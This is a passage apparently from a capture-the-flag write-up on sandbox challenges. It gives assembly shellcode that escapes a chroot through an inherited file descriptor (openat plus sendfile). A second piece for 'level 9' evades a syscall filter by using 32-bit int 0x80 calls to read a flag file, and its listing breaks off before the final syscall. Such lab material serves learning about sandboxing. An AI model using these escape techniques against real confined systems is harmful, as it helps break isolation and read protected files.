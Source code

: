```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```

&nbsp;

## level 9
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "close", "stat", "fstat", "lstat".
```
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea ebx, [eip + flag]
	mov ecx, 0
	mov edx, 0
	mov eax, 0x05
	int 0x80

	# Read syscall
	mov ebx, 3
	mov ecx, content
	mov edx, 1000
	mov eax, 0x03
	int 0x80

	# Write syscall
	mov ebx, 1
	mov ecx, content
	mov edx, 1000
	mov eax, 0x04
	int 0x80

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
```